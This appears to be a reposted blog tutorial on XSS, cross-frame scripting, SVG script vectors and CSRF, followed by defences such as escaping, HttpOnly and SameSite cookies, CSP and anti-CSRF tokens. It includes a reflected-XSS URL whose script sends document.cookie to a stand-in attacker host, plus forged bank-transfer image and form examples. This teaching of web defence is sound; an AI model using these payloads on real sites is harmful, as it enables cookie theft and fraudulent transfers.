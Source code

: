 ```yaml
---
layout: post
title: Prevent XSS and CSRF attacks on your website
date: 2019-08-19 00:00:00 +0300
description: what are xss and csrf attacks and how can we prevent them? # Add post description (optional)
img: prevent-xss-csrf.png # Add image post (optional)
fig-caption: none # Add figcaption (optional)
tags: [csrf,xss,browser,attack,xfs,security,web,hacking,cookies,website,svg]
---
```


### 1. **What is XSS: Cross-site scripting?**

In case of XSS, the attacker makes the victim's browser execute a script (mostly JavaScript) that has been injected by the attacker while visiting a trusted web site. The attacker has several ways of injecting the JavaScript into a web site that the victim trusts.

XSS doesn't need an authenticated session and can be exploited when the vulnerable website doesn't do the basics of validating or escaping input.

When the server doesn't validate or escape input as a primary control, an attacker can send inputs via request parameters or any kind of client side input fields (which can be cookies, form fields or url params). These can be written back to screen, persisted in database or executed remotely.

Be aware using shorten URLs as you don't know where they can lead! First check where the hidden link leads using unshorten.it. After receiving the final link, check it out on the VirusTotal website. It is also suggested to have it as a browser extension.

### 2. **Reflected XSS (aka Non-Persistent or Type II XSS)**

Reflected attacks are those where the malicious script is reflected by a web server and then executed by the the web browser. In this type of attack a user is tricked into clicking a link, or filling in a form, that has the script hidden in it. This can be achieved by sending an email, or posting the link on a forum.

As the domain that the victim can see in the URL is well known and trusted, the victim won't expect any harm behind it. When this is submitted to the server it will be rejected and reflected back to the browser. Many servers will send the input back in text format so the browser can display the input that was rejected. If this text is a valid script then the browser will execute it as it is coming from a trusted source. The attacker could use the victim's CPU to calculate bitcoins in the browser or could steal the victim's cookie.

```html
https://google.com?query=<script>new Image().src="http://attackerurl.org/storecookie?cookie="+document.cookie;</script>
```
![reflected xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-1.png)

### 2. **Stored XSS (aka Persistent or Type I XSS)**

Besides injecting the script using query parameters, the attacker may also inject the script persistenly into a web site's storage. The storage can be in a database, in a web page component like a message forum, visitor log, comment field, or other element that goes to make up a page to deliver to a user. In case, a forum that doesn't validate the user's input, website could be compromissed by posting something that contains the malicious script. The malicious script is delivered along with the normal web content and the client executes it. Every user of the forum that reads the attacker's post will become a victim.

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-2.png)

### 3. **What is XFS: Cross Frame Scripting?**

Cross-Frame Scripting (XFS) is an attack that combines malicious JavaScript with an iframe that loads a legitimate page in an effort to steal data from an unsuspecting user. This attack is usually only successful when combined with social engineering. An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes.

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a <frame>, <iframe>, <embed> or <object>. Sites can use this to avoid clickjacking attacks, by ensuring that their content is not embedded into other sites.

```html
X-Frame-Options: deny
X-Frame-Options: sameorigin
X-Frame-Options: allow-from https://example.com/
```

### 3. **JavaScript in image tags**

Directly injecting JavaScript code in the source attribute of <img> tag is no longer possible on modern browsers.

But SVG is an XML based vector graphic format, therefore it invokes the XML parser in the browser. Moreover, <script> tag is allowed in the SVG, so JavaScript can be embed directly into SVG.

Browsers that support SVG inside <img> tags do not support scripting inside the context. **But you should not  use SVG inside <embed> or <object> tags where scripting is supported by browsers!**

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-3.png)

Allowing SVG inside <img>may be dangerous when:

* An XML parser is used to parse the SVG, whether it is inside the <img> or <object> tag. The parser is certainly tweaked with some parameters to ignore <script> tags in the <img> context. Yet, that is quite ugly, it is blacklisting a tag in a certain context. And blacklisting is poor security.
* <script> is not the only way to achieve execution context in SVG, there are also the onmouseover (and family) events present in SVG. This is again tricky to blacklist.
* The XML parser in browsers did suffer from problems in the past, notable with XML comments around script blocks. SVG may present similar problems.
* SVG has full support for XML namespaces. xlink:href is a completely valid construct in SVG and the browser inside the XML parser context will likely follow it.
Therefore, SVG opens several possible vectors to achieve execution context. And moreover, it is a relatively new technology and therefore not well hardened.

### 3. **What is CSRF: Cross-site request forgery?**

In a CSRF attack, the attacker tries to force/trick you into making a request which you did not intend, making use of the existing victim's context, such as cookies. Every time you interact with website, its server checks the cookie you send with the request so it knows it's you.

The level of the attack is based upon the level of privileges that the victim possessed. Because attacker will use the authentication that has gained in the current session to do the malicious task. This is the reason why this attack termed as Session Riding too.

#### **Using a GET request (rare case)**

CSRF happens in authenticated sessions when the server trusts the user/browser. Let's consider an example when you are logged in into your banking site. An attacker can place a malicious link embedded in another link or zero byte image which can be like:

```html
<img src=yourbanking.com/transfer.do?to_account={attackers_account}&amt=2500>
```
Now, in the background transfer can happen though you clicked this link (of course, if your banking uses GET request for such actions without any confirmation). Depending on the vulnerable web site, using CSRF, attackers can also change your credentials or user profile properties.

#### **Using a POST request (common and most popular case)**

This attack requires the user to click the form button on hacker's website, then the malicious page could just as easily send the request by submitting the form.

```html
<h1>You Are a Winner!</h1>
<form action="http://yourbanking.com/api/account/transfer" method="post">
    <input type=hidden name=to_account value="attacker_id" />
    <input type=hidden name=amount value="1000000" />
    <input type=submit value="Click me to get your reward" />
</form>
```
After submitting the form user could figure out what happened, but it could be too late to revert or discard these changes.

![using a POST request ]({{site.baseurl}}/assets/img/prevent-xss-csrf-4.png)

Moreover, using SSL does not prevent a CSRF attack, because the malicious site can send an "https://" request. Typically, CSRF attacks are possible against web sites that use cookies for authentication, because browsers send all relevant cookies to the destination web site.

### 5. **Difference between XSS and CSRF**

Both these attacks seems to be very similar, as they are client-side attacks and doing quite similar things, enforcing some form of user activity (e.g. clicking a link or visiting a website).

In a cross-site scripting (XSS) attack, the attacker makes you involuntarily execute client-side code, most likely Javascript. In a cross-site request forgery (CSRF) attack, the attacker manipulates you to making a melicoius request to the server which you did not intend. This could be sending you a link that makes you involuntarily perform some action.

XSS is generally more powerful than CSRF because it usually allows the execution of arbitrary script code while CSRF is restricted to a particular action (e.g. changing the password). A successful XSS attack also effectively bypasses all anti-CSRF measures.

### 6. **Protect your website**

#### **Protect against XSS attack**

##### **Escape special characters, validate and sanitize inputs**

> Expect any untrusted data to be malicious. What's untrusted data? Anything that originates from outside the system and you don't have absolute control over so that includes form data, query strings, cookies, other request headers, data from other systems (i.e. from web services) and basically anything that you can't be 100% confident doesn't contain evil things.

> Troy Hunt

**Validating input** is the process of ensuring an application is rendering the correct data and preventing malicious data from doing harm to the site, database, and users. Input validation is especially helpful and good at preventing XSS in forms, as it prevents a user from adding special characters into the fields, instead refusing the request.

**Sanitizing data** is a strong defense, but should not be used alone to battle XSS attacks. Sanitizing user input is especially helpful on sites that allow HTML markup, to ensure data received can do no harm to users as well as your database by scrubbing the data clean of potentially harmful markup, changing unacceptable user input to an acceptable format.

**Escaping data** means taking the data an application has received and ensuring it’s secure before rendering it for the end user. By escaping user input, key characters in the data received by a web page will be prevented from being interpreted in any malicious way. In essence, you're censoring the data your web page receives in a way that will disallow the characters – especially < and > characters – from being rendered, which otherwise could cause harm to the application and/or users. If your page doesn’t allow users to add their own code to the page, a good rule of thumb is to then escape any and all HTML, URL, and JavaScript entities.

##### **HttpOnly flag for cookies**

The purpose of the HttpOnly flag is to make the value of the cookie unavailable from JavaScript, so that it can not be stolen if there is a XSS vulnerability.

Any attempt to access the cookie from client script is strictly forbidden. Of course, this presumes you have:

A modern web browser
A browser that actually implements HttpOnly correctly
The good news is that most modern browsers do support the HttpOnly flag. Regardless, HttpOnly cookies are a great idea, and properly implemented, make common XSS attacks much harder to pull off.

HttpOnly cookies don't make you immune from XSS cookie theft, but they raise the bar considerably. Anyway, a "set it and forget it" setting is pretty secure as all modern browsers implemented client-side HttpOnly cookie security correctly.

##### **Security headers**

The HTTP Content-Security-Policy response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks (XSS).

```html
Content-Security-Policy: default-src https:; script-src https: 'unsafe-eval' 'unsafe-inline'; style-src https: 'unsafe-inline'; img-src https: data:; font-src https: data:; report-uri /csp-report
```
The X-XSS-Protection header is designed to enable the cross-site scripting (XSS) filter built into modern web browsers. This is usually enabled by default, but using it will enforce it.

```html
X-XSS-Protection: 1; mode=block
```

A 0 value disables the XSS Filter. A 1 value enables the XSS Filter. If a cross-site scripting attack is detected, in order to stop the attack, the browser will sanitize the page.

A 1; mode=block value also enables the XSS Filter and rather than sanitize the page, when an XSS attack is detected, the browser will prevent rendering of the page.

#### **Protect against CSRF attack**

##### **Using CSRF-token**

Because of your session is active in the browser and it has your session id, CSRF attack can happend. This is the reason the most popular CSRF protection is having another server supplied unique token generated and appended in the request as a hidden value in every state changing form which is present on the web application. This token, called a CSRF Token or a Synchronizer Token. This unique token is not something which is known to the browser like session id.

Instead of putting the anti-CSRF token in the cookie, the server needs to put it as a hidden parameter in a form. For every request involving some sensitive action, the browser will send this token also along with the request and the server, before performing the action, would verify if the token is the one that it had sent to the browser or not. This additional validation at server will make sure that the attacker manipulated link.

This protects the form against CSRF attacks, because an attacker has no way of performing this sensitive action on behalf of the user, as forging a request will also need to guess the anti-CSRF token. Unless an attacker won't successfully trick a victim into sending a valid request or somehow finds out the random anti-CSRF token itself.

**_This token should be invalidated after some time and after the user logs out. The token have to be unique per action and have to be valid only once. Never share tokens via URLs._**

##### **Using Same-site attribute for cookies**

CSRF attacks are only possible since Cookies are always sent with any requests that are sent to a particular origin (domain and path), which is related to that Cookie. Due to the nature of a CSRF attack, a flag can be set against a Cookie, tuning it into a same-site Cookie. A same-site Cookie is a Cookie which can only be sent, if the request is being made from the same origin that is related to the Cookie being sent. The Cookie and the page from where the request is being made, are considered to have the same origin if the protocol, port (if applicable) and host is the same for both.

When another site tries to request something from the web application, the cookie is not sent. This effectively makes CSRF impossible, because an attacker can not use a user's session from his site anymore.

There are two possible values for the same-site attribute:

* Strict: the cookie is withheld with any cross-site usage. Even when the user follows a link to another website the cookie is not sent.
* Lax: some cross-site usage is allowed. Specifically, if the request is a GET request and the request is top-level. Top-level means that the URL in the address bar changes because of this navigation. This is not the case for iframes, images or XMLHttpRequests.

| request type | html code example | cookie type |
|:------------------:|:--------------------:|:---------------------:|
| link | &lt;a href="..."> | normal, lax |
| prerender | &lt;link rel="prerender" href="..." /> | normal, lax |
| form GET | <form action="..."> | normal, lax |
| form POST | <form method="post" action="..."> | normal |
| iframe | <iframe src=...> | normal |
| image | <img src=...> | normal |
| AJAX | fetch('...') (JavaScript) | normal |

This table shows what cookies are sent with cross-origin requests. As you can see cookies without a same-site attribute (indicated by "normal") are always sent. **Strict cookies are never sent. Lax cookies are only send with a top-level get request.**

As you would expect strict mode gives better security, but breaks some functionality. Links to protected resources won't work from other sites. Even if you are logged in and have access to some resource, your strict cookies won't be sent when coming from another site. With lax mode, this still works, while providing decent security by blocking cross-site post requests.

The same-site attribute is a good method to protect against CSRF attacks, because it seems to the attacker as though you are no longer logged in to the website under attack.

##### **Using Referer, Origin, Host and X-Requested-With headers**

X-Requested-With: XMLHttpRequest HTTP header can prevent CSRF attacks because this header cannot be added to the AJAX request cross domain without the consent of the server via CORS. Without CORS it is not possible to add X-Requested-With to a cross domain XHR request. Only the following headers are allowed cross domain:

* Accept
* Accept-Language
* Content-Language
* Last-Event-ID
* Content-Type

Referer header tells server from where the request has originated. If the request is coming from unauthorized domain, then Referer header will contain that value and server can simply reject that request.

_These headers are great to additional check against CSRF attack, but do not rely only on them._

**Misunderstanding the Same Origin Policy (aka SOP) and what Cross-origin resource sharing (aka CORS) brings to the table**

All the SOP does, is prevent the response from being read by another domain (aka origin). This is irrelevant to whether a CSRF attack is successful or not. The only time the SOP comes into play with CSRF is to prevent any token from being read by a different domain.

CORS does not increase security, it simply allows some exceptions to take place. Some browsers with partial CORS support allow cross site XHR requests (e.g. IE 10 and earlier), however they do not allow custom headers to be appended. In CORS supported browsers the Origin header cannot be set, preventing an attacker from spoofing this.

All of the above has nothing to do with forged requests coming directly from an attacker. Remember, the attacker needs to use the victim's browser for their attack. They need the browser to automatically send its cookies. This cannot be achieved by a direct curl request as this would only be authenticating the attacker in this type of attack scenario (the category known as "client-side attacks").

### **Conclusion**

Both attacks have in common that they are client-side attacks and need some action of the end user, such as clicking on a link or visiting a web site. XSS executes a malicious script in your browser, CSRF sends a malicious request on your behalf.

###### **本文转载自Sergey Podgornyy的[《Prevent XSS and CSRF attacks on your website》](https://blog.larapulse.com/security/prevent-xss-csrf-attacks){:target="_blank"}**